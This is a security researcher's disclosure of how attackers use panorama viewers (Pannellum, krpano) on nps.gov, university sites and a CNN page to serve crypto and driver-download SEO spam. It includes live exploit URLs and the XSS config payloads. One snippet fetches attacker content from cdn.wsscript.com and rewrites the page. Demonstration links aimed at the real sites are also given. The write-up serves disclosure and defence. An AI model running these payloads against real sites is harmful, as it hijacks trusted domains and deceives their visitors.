

The US National Park Service runs nps.gov, one of the most trusted .gov domains on the internet. Right now, if you visit the right URL, the browser address bar shows nps.gov but the page shows crypto spam about Solana NFTs. The page was indexed in Google News. Here is how the entire attack works, step by step.

## The live problem

Visit this URL in your browser:

```text
https://www.nps.gov/hdp/scripts/pannellum/pannellum.htm?config=/\/cdn.wsscript.com/gov/article/tensor-solana-nft.txt
```

Your browser address bar will show `www.nps.gov/defi/tensor-solana-nft`. The page content will be an article titled "Tensor Solana Nft" with a video player, SEO markup, and crypto marketing text. None of this content has anything to do with the National Park Service.


This URL was also distributed through Google News RSS, using the redirect at:

```text
https://news.google.com/rss/articles/CBMitwFBVV95cUxQVllBWjdhYmZyWDZf...
```

Google News decoded that link and sent visitors to the nps.gov URL above.

## How the attack works

The attack exploits a single feature of a legitimate open-source tool that nps.gov hosts. Here is the full chain, built from the bottom up.

### Step 1: find an open redirect or injectable page on a .gov domain

The nps.gov website hosts [Pannellum](https://pannellum.org/), an open-source panoramic image viewer, at:

```text
https://www.nps.gov/hdp/scripts/pannellum/pannellum.htm
```

This is a legitimate tool used for 360° panorama images of historic sites. Pannellum is designed to accept a `config` query parameter containing the URL of a JSON configuration file. The viewer fetches this JSON via XMLHttpRequest and uses it to set up the panorama display.


Here is what this widget is supposed to look like when it is working. It is beautiful.

The critical issue: there is no restriction on what URL the `config` parameter can point to. It does not have to be on nps.gov.

### Step 2: craft a config URL that points to an external server

The `config` parameter is parsed from the query string and fetched by the JavaScript. But browsers have rules about relative paths. The attacker uses a path trick:

```text
?config=/\/cdn.wsscript.com/gov/article/tensor-solana-nft.txt
```

The `/\/` sequence breaks out of the relative path context and resolves to the external domain `cdn.wsscript.com`. Now the Pannellum viewer running on nps.gov fetches and parses a JSON config file controlled entirely by the attacker.

### Step 3: build a malicious Pannellum config with XSS

The attacker's config file at `cdn.wsscript.com/gov/article/tensor-solana-nft.txt` is valid Pannellum JSON. It loads a real panoramic photo so the viewer initializes normally. But it also defines a hotspot with injected HTML attributes:

```json
{
  "autoLoad": true,
  "panorama": "https://pannellum.org/images/cerro-toco-0.jpg",
  "hotSpots": [
    {
      "pitch": 0,
      "yaw": 0,
      "type": "info",
      "URL": "#",
      "attributes": {
        "style": "visibility:visible !important; position:fixed; top:0; left:0; width:100px; height:100px; z-index:99999; animation: pnlm-mv 0.001s 1 forwards",
        "onanimationstart": "eval(atob(\"...\"))"
      }
    }
  ]
}
```

The hotspot's `style` attribute applies a CSS animation that completes in 0.001 seconds. This fires the `onanimationstart` event handler automatically, with no user interaction required.

### Step 4: the JavaScript payload replaces the entire page

The `onanimationstart` handler runs `eval(atob("..."))`, which decodes to:

```javascript
fetch('https://cdn.wsscript.com/gov/how-to/tensor-solana-nft.txt')
  .then(r => r.text())
  .then(h => {
    document.open();
    document.write(h);
    document.close();
  })
```

This fetches a second file from the attacker's server and calls `document.write()` to completely replace the page content. Because JavaScript is running in the context of nps.gov, the browser address bar still shows nps.gov throughout this process.

### Step 5: the replacement page fakes the URL and serves content

The injected HTML page does several things:

1. **Rewrites the visible URL** using `history.replaceState()` to change the path to `/defi/tensor-solana-nft`, making the address bar look even more like a real nps.gov page.

2. **Detects search engine crawlers** with a regex check for `googlebot|bingbot|adsbot` in the user agent. If a crawler visits, the page serves clean content optimized for indexing. Human visitors get the full treatment.

3. **Loads an external tracking script** from `https://b.sdntoper.top/js/evm.js` (hidden behind another base64-encoded string in the page source).

4. **Includes rich SEO markup** with Open Graph meta tags, Schema.org JSON-LD, and a video player, all designed to make the page appear legitimate in Google News and social media previews.

### The full redirect chain



Please note that the Google News part of the chain here is not strictly necessary. However, I am including it in this diagram because the motivation for this attack scenario is to boost Solana in news rankings. This is Black Hat SEO.

## SEO impact

I have not evaluated how effective this technique would be in managing reputation from AI agents. But on a first guess I think this is not so effective. ChatGPT doesn't usually load Google News to see if Solana is hot.

## Two unrelated panorama viewers, one attack pattern

The nps.gov attack uses [Pannellum](https://pannellum.org/). But the same attacker infrastructure also targets sites running [krpano](https://krpano.com/), a completely different panorama viewer. These two projects are not related. One is not a fork of the other.

**Pannellum** is an open-source project (MIT license) created by Matthew Petroff, written in JavaScript and WebGL. It uses JSON configuration files and accepts a `config` query parameter in its standalone viewer.

**krpano** is a proprietary commercial product developed by krpano.com. Its documentation states "no external dependencies — all code is developed and maintained in-house." It uses XML configuration files and accepts query parameters via an `embedpano()` setting called `passQueryParameters`.

The two projects share no code, no common ancestor, and no compatible configuration format. They just both solve the same problem: displaying panoramic images in a web browser.

### The attack vector is not identical

Because the configuration formats are completely different, **one config file cannot work on both viewers**. The attacker must craft separate payloads for each target.

For **Pannellum** targets (nps.gov, .edu sites), the attacker writes a JSON config that defines a hotspot with injected HTML attributes. The `attributes` dict on a hotspot lets the attacker set arbitrary HTML attributes including `onanimationstart`, which fires JavaScript automatically:

```json
{
  "hotSpots": [{
    "attributes": {
      "style": "animation: pnlm-mv 0.001s 1 forwards",
      "onanimationstart": "eval(atob('...'))"
    }
  }]
}
```

For **krpano** targets (CNN), the attacker writes an XML config that defines a `<layer>` element with an `onloaded` event handler. krpano's built-in `js()` action executes JavaScript directly:

```xml
<krpano>
  <layer name="js_loader" type="container"
    onloaded="js((function(){
      document.write(atob('...'));
    })())" />
</krpano>
```

But what comes after the initial injection is nearly identical in both cases: `document.write()` replaces the entire page, `history.replaceState()` rewrites the URL, schema.org structured data is injected for SEO, and bot-detection determines whether to load a tracking script. The final-stage JavaScript is the same toolkit deployed on both platforms.

### krpano's own documentation warns about this

krpano's embedding documentation includes this explicit security warning about `passQueryParameters`:

> Versions before 1.20.12 / 1.22.4 allowed also the usage of 'true' to allow all kind of parameters! This can open potentials for Cross-site-scripting security vulnerabilities and should be strongly avoided!

The CNN deployment uses `passQueryParameters:true` with krpano version 1.17-pr2, built in January 2014, which predates these fixes. Newer versions of krpano also added a `sameorigin:true` default that blocks loading XML from external servers, but this protection does not exist in the version CNN runs.

## Other affected websites

This is not only an nps.gov problem. Both Pannellum and krpano are widely deployed on high-trust domains, and the attacker infrastructure targets both. A search for deployments found active exploitation on university websites and major news organizations.

### Deployed versions

| Site | Software | Deployed version | Latest version |
|---|---|---|---|
| nps.gov | Pannellum | 2.5.6 | 2.5.6 (November 2019) |
| bu.edu | Pannellum | 2.5.4 | 2.5.6 (November 2019) |
| biola.edu | Pannellum | 2.5.6 | 2.5.6 (November 2019) |
| edition.cnn.com | krpano | 1.17-pr2 (January 2014) | 1.23.3 |

Two of the three Pannellum sites are already running the latest release. But Pannellum has not had a release since November 2019, and no version of Pannellum restricts the `config` parameter to same-origin URLs. The project is still actively maintained (last commit June 2025), and I checked the current `main` branch: the standalone viewer's `config` parameter still fetches arbitrary cross-origin URLs, and the hotspot `attributes` dict still passes values directly to `setAttribute()` without filtering event handlers. Updating to the latest Pannellum release would not fix this vulnerability, and neither would updating to the current unreleased code.

CNN's krpano deployment is over eleven years old. The `sameorigin:true` default that blocks external XML loading was added in krpano 1.20.12 / 1.22.4. Updating to a current krpano release would mitigate the attack, but this particular CNN interactive page appears to be unmaintained legacy content.

### Confirmed exploited (.edu)

- **Boston University** (bu.edu) — the Pannellum viewer at `bu.edu/housing/wp-content/themes/r-housing/js/vendor/pannellum/pannellum.htm` has been used to serve pages about "Hatom liquid staking," "Optimism Mainnet," and "Solana error codes" via configs loaded from `nn.kostoom.com` and `anni.ie`.
- **Biola University** (biola.edu) — the viewer at `cdn.biola.edu/event_services/pannellum/pannellum.htm` serves pages about "trading algorithms" and "Bitcoin inscriptions" via configs from `anni.ie`.

### Confirmed exploited (CNN, via krpano)

- **CNN** (edition.cnn.com) — the krpano viewer at `edition.cnn.com/interactive/2014/02/world/sochi-360/tour.html` has been used to serve SEO spam about "2i4 Drivers" (Focusrite audio hardware) via a config loaded from `cdn.wsscript.com`. The exploit URL is:

```text
https://edition.cnn.com/interactive/2014/02/world/sochi-360/tour.html?html5=always&type=html&pano=/\/cdn.wsscript.com/cnns/news/2i4-drivers.txt
```

## Why this matters

**Trust in .gov and .edu domains is the entire point.** Browsers display these domains as inherently trustworthy. Search engines rank their content highly. Google News indexed this attacker-controlled content because the final URL appeared to be on nps.gov. Users seeing the address bar would have no reason to suspect anything.

**The root cause is trivial.** Panorama viewers accepting arbitrary external URLs as configuration — Pannellum's `config` parameter and krpano's `passQueryParameters:true` setting — are the only vulnerabilities needed. This is a textbook example of an open redirect / reflected XSS via a third-party library. The fix is straightforward: restrict configuration parameters to same-origin URLs, or remove the feature entirely and hardcode configurations for each panorama deployment.

**This pattern is reusable and actively exploited at scale.** The same attacker infrastructure (using domains like `cdn.wsscript.com`, `nn.kostoom.com`, `anni.ie`, `sdntoper.top`, and `cdn.taddd.net`) is targeting multiple high-trust domains simultaneously with both Pannellum and krpano viewers. The attacker simply prepares a config file and constructs a URL for each target — no server compromise needed.

## Attack attribution

The attack infrastructure uses several domains that serve different roles. Some host configuration files (the Pannellum JSON or krpano XML that triggers the XSS), some host the replacement HTML pages, and some host tracking or monetization scripts loaded after the page is taken over.

Hosting malicious files on a domain does not necessarily mean the domain's operator is responsible for the attack. Servers can be compromised through their own vulnerabilities (a so-called watering hole attack), and attackers frequently upload files to servers they have broken into. That said, these domains warrant investigation.

### Configuration and content servers

These domains host the config files that trigger the XSS and the replacement HTML pages that hijack the victim site:

| Domain | Role | Registrar | Created |
| --- | --- | --- | --- |
| cdn.wsscript.com | Hosts Pannellum JSON configs, krpano XML configs, and replacement HTML for nps.gov and CNN attacks | NameCheap | 2023-12-22 |
| nn.kostoom.com | Hosts Pannellum JSON configs used in Boston University attacks | Tucows | 2015-10-27 |
| anni.ie | Hosts Pannellum JSON configs used in Boston University and Biola University attacks | — | — |

The domain anni.ie belongs to the Association of Nigerian Nurses in Ireland, a legitimate organization. Their website runs [Kopage](https://www.kopage.com/) (a website builder). This domain may itself be a compromised server being used to host attacker files without the organization's knowledge.

### Tracking and monetization servers

These domains host JavaScript files that are loaded after the page takeover, for non-bot visitors only:

| Domain | Role | Registrar | Created |
| --- | --- | --- | --- |
| b.sdntoper.top | Serves tracking script `evm.js` loaded in nps.gov attacks | — | — |
| cdn.taddd.net | Serves tracking script `dll.js` loaded in CNN attacks | Cloudflare | 2026-01-12 |

The domain cdn.taddd.net was registered only one month before this writeup, which is consistent with attacker infrastructure that rotates frequently.

### The attacker's own sitemap

The domain cdn.wsscript.com publishes an HTML sitemap at its root URL. As of this writing, this sitemap contains 284 links, all targeting CNN's krpano viewer via the `edition.cnn.com` Sochi 360 interactive page. Every link points to a different config file on cdn.wsscript.com, each serving SEO spam about a different Windows driver download or DLL file (e.g. "AMD display driver," "VLC media player download," "Vcruntime140.dll"). This sitemap itself is designed to be crawled by search engines, which would then index the 284 exploited CNN URLs.

### Exploited URLs on high-authority domains

The following URLs on trusted domains are currently serving attacker-controlled content. These are listed here without hyperlinks because they execute malicious JavaScript when visited. Each URL is a separate domain owner who should be contacted about this vulnerability.

On <www.nps.gov> (via Pannellum, config from cdn.wsscript.com):

```text
https://www.nps.gov/hdp/scripts/pannellum/pannellum.htm?config=/\/cdn.wsscript.com/gov/article/tensor-solana-nft.txt
```

On edition.cnn.com (via krpano, config from cdn.wsscript.com), 284 URLs all using the same base path with different config files. A representative sample:

```text
https://edition.cnn.com/interactive/2014/02/world/sochi-360/tour.html?html5=always&type=html&pano=/\/cdn.wsscript.com/cnns/news/2i4-drivers.txt
https://edition.cnn.com/interactive/2014/02/world/sochi-360/tour.html?html5=always&type=html&pano=/\/cdn.wsscript.com/cnns/news/7zip-download.txt
https://edition.cnn.com/interactive/2014/02/world/sochi-360/tour.html?html5=always&type=html&pano=/\/cdn.wsscript.com/cnns/news/vlc-media-player-download.txt
```

The full list of 284 URLs is available in the sitemap at the root of cdn.wsscript.com.

On <www.bu.edu> (via Pannellum, configs from nn.kostoom.com and anni.ie):

```text
https://www.bu.edu/housing/wp-content/themes/r-housing/js/vendor/pannellum/pannellum.htm?config=/\/cdn.wsscript.com/gov/article/tensor-solana-nft.txt
```

Exploited pages were found indexed with topics including "Hatom liquid staking," "Optimism Mainnet," and "Solana error codes."

On cdn.biola.edu (via Pannellum, configs from anni.ie):

```text
https://cdn.biola.edu/event_services/pannellum/pannellum.htm?config=/\/cdn.wsscript.com/gov/article/tensor-solana-nft.txt
```

Exploited pages were found indexed with topics including "trading algorithms" and "Bitcoin inscriptions."

### How to investigate further

The exploited URLs above are designed to be indexed by search engines. Searching for them — or for the attacker infrastructure domains — in web search may reveal who is linking to these compromised pages. Backlink analysis of the exploited CNN and nps.gov URLs could show where the attacker is distributing these links (SEO link farms, blog comment spam, forum posts, or social media). This trail of backlinks may help identify who is behind the attack, or at least which SEO network is benefiting from it.

### Sanitized demonstration

To confirm this vulnerability is real, we created a harmless demonstration config file hosted at `apps.phor.net/csh-panorama/config-pannellum.php`. This config replaces the page content with only the text "This page content has been replaced using a technique described on the Community Service Hour podcast." It does not load any tracking scripts, redirect anywhere, or do anything else. The content of this replacement message can be changed to anything at any time by editing the config file — this is the core of the vulnerability.

The config file is a JSON document served from a PHP script. The PHP wrapper adds CORS response headers so that the Pannellum viewer on any origin can fetch it via XMLHttpRequest. Without these headers the browser's same-origin policy would block the request. The JSON body uses the same Pannellum hotspot injection technique described above: a hotspot with an `onanimationstart` attribute that calls `document.write()` to replace the page, but with the replacement content base64-encoded inline rather than fetched from a second URL.

The krpano config for the CNN demonstration works the same way, but uses XML instead of JSON. The replacement HTML is base64-encoded inside the `onloaded` attribute because XML does not allow literal `<` or `>` characters inside attribute values — the XML parser would reject the document. While it would also be possible to construct the replacement page using JavaScript DOM methods (avoiding HTML tags entirely) or XML CDATA sections, base64 encoding is the most straightforward approach and is what the real attacker uses. It also demonstrates the scalability of the attack: an arbitrarily complex replacement page of any size can be delivered in a single self-contained config file.

These links are safe to click. They demonstrate the vulnerability on each affected Pannellum site by replacing the page with the innocuous message:

- [nps.gov demonstration](https://www.nps.gov/hdp/scripts/pannellum/pannellum.htm?config=/\/apps.phor.net/csh-panorama/config-pannellum.php)
- [bu.edu demonstration](https://www.bu.edu/housing/wp-content/themes/r-housing/js/vendor/pannellum/pannellum.htm?config=/\/apps.phor.net/csh-panorama/config-pannellum.php)
- [biola.edu demonstration](https://cdn.biola.edu/event_services/pannellum/pannellum.htm?config=/\/apps.phor.net/csh-panorama/config-pannellum.php)
- [edition.cnn.com demonstration](https://edition.cnn.com/interactive/2014/02/world/sochi-360/tour.html?html5=always&type=html&pano=/\/apps.phor.net/csh-panorama/config-krpano.php)

The Pannellum sites use a JSON config file and the CNN site uses a krpano XML config file, but both achieve the same result through the same PHP wrapper approach described above.

## Recommendations

1. Remove or restrict the `config` query parameter in the Pannellum deployment on nps.gov so that it only accepts same-origin URLs or a whitelist of known configuration files.
2. Remove or set `passQueryParameters:false` in krpano deployments like CNN's Sochi 360 viewer, or restrict which parameters the viewer accepts.
3. Audit other .gov, .edu, and media sites for the same Pannellum and krpano deployment patterns, starting with the sites listed above.
4. The Pannellum open-source project should consider validating that `config` URLs are same-origin by default, or at minimum document this as a security consideration.
5. Google News should validate that the final URL after redirects actually serves consistent content and is not an open redirect.

## Test date

February 2026

## Disclosure timeline

- 2026-02-10 [Publicly reported](https://x.com/fulldecent/status/2021340939017650493) on X, but I failed to explain the actual vulnerability properly
- 2026-02-13 This writeup with full technical explanation

## Additional research notes

- A list of affected sites: <https://palmaeduca.es/fotos/?C=M;O=D>
